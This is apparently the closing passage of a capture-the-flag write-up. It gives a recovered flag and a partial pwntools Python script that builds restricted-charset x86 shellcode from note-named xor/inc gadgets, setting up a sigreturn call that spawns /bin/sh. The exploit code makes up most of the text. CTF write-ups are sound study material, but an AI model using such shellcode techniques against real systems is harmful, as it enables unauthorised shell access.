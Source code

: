 Then set `eax` to `0x77` for `sigreturn`, `/bin/sh` at `0x40404747` and pad the payload so that `int 0x80` lands at `0x60606666`. After a lot of messing about xoring values we finally end up with the flag!

`OOO{1f_U_Ar3_r34d1n6_7h15_y0u_4r3_7h3_m0z4rT_0f_1nf053c_Ch33rs2MP!}`


```python
#!/usr/bin/env python2

from pwn import *
from note_lookup import *
from pow import *

def set_esi_40404747(notes):
  notes += ["A1", "F4"] # inc ecx; xor DWORD PTR [esi+0x34],eax
  notes += ["A3", "G0"] # inc ecx; xor eax,DWORD PTR [edi+0x30]

  notes += ["A1", "F4"] # inc ecx; xor DWORD PTR [esi+0x34],eax
  notes += ["B5", "B9", "B9"] # inc edx; xor eax,0x39423942
  notes += ["B5", "D9", "B9"] # inc edx; xor eax,0x39423944
  notes += ["A4", "F6"] # inc ecx; xor al,0x46; ss

  notes += ["B5", "A9", "B9"] # inc edx; xor eax,0x39423941
  notes += ["B5", "F9", "B9"] # inc edx; xor eax,0x39423946
  notes += ["A1", "F4", "F6"] * 2 # inc ecx; xor DWORD PTR [esi+0x34],eax;  inc esi; ss

  notes += ["B5", "A9", "B9"] # inc edx; xor eax,0x39423941
  notes += ["B5", "F9", "B9"] # inc edx; xor eax,0x39423946
  notes += ["A1", "F4", "F6"] * 2 # inc ecx; xor DWORD PTR [esi+0x34],eax;  inc esi; ss


  notes += ["A3", "F4"] # inc ecx; xor eax,DWORD PTR [esi+0x34]
  notes += ["B5", "B9", "B9"] # inc edx; xor eax,0x39423942
  notes += ["B5", "D9", "B9"] # inc edx; xor eax,0x39423944
  notes += ["A4", "F6"] # inc ecx; xor al,0x46; ss

def set_esi_00000b(notes):
  notes += ["A2", "G0"] # inc ecx; xor al,BYTE PTR [edi+0x39]
  notes += ["A4", "D6"] # inc ecx; xor al,0x44; ss

  notes += ["A1", "F4", "F6", "F6", "F6", "F6"] # inc ecx; xor DWORD PTR [esi+0x34],eax;  inc esi; ss

  notes += ["A2", "G0"] # inc ecx; xor al,BYTE PTR [edi+0x39]
  notes += ["A4", "D6"] # inc ecx; xor al,0x44; ss



def set_esi_60606666(notes):
  notes += ["A2", "G8"] # inc ecx; xor al,BYTE PTR [edi+0x38]
  notes += ["A4", "A6"] # inc ecx; xor al,0x41; ss

  notes += ["B5", "C9", "B9"] # inc edx; xor eax,0x39423943
  notes += ["B5", "D9", "B9"] # inc edx; xor eax,0x39423944

  notes += ["A1", "F4", "F6"] * 2 # inc ecx; xor DWORD PTR [esi+0x34],eax;  inc esi; ss


  notes += ["B5", "B9", "B9"] # inc edx; xor eax,0x39423942
  notes += ["B5", "D9", "B9"] # inc edx; xor eax,0x39423944

  notes += ["A1", "F4", "F6"] * 2 # inc ecx; xor DWORD PTR [esi+0x34],eax;  inc esi; ss

  notes += ["A4", "A6"] # inc ecx; xor al,0x41; ss
```